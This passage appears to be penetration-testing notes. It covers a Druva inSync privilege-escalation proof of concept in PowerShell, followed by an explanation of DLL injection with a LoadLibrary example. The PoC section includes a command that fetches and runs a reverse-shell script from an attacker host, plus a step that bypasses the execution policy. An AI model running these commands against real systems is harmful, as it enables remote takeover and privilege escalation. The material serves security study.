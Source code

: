 ````
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
````
Modifying PowerShell PoC
````
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<Our_IP>:8080/shell.ps1')"

Rename the file Invoke-PowershellTCP.ps1 to shell.ps1 and append "Invoke-PowerShellTcp -Reverse -IPAddress <Our_IP> -Port <Our_Port>"
````
Exploitation
````
# Starting a Python Web Server
$ python3 -m http.server 8080

# Modifying the PowerShell execution policy 
> Set-ExecutionPolicy Bypass -Scope Process

# Execute POC
> .\poc.ps1
````

## DLL Injection

DLL injection is a method that involves inserting a piece of code, structured as a Dynamic Link Library (DLL), into a running process. This technique allows the inserted code to run within the process's context, thereby influencing its behavior or accessing its resources.

DLL injection finds legitimate applications in various areas. For instance, software developers leverage this technology for hot patching, a method that enables the amendment or updating of code seamlessly, without the need to restart the ongoing process immediately.

**LoadLibrary**

LoadLibrary is a widely utilized method for DLL injection, employing the LoadLibrary API to load the DLL into the target process's address space.

The LoadLibrary API is a function provided by the Windows operating system that loads a Dynamic Link Library (DLL) into the current process’s memory and returns a handle that can be used to get the addresses of functions within the DLL.
````
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
````
The first example shows how LoadLibrary can be used to load a DLL into the current process legitimately.
````
#include <windows.h>
````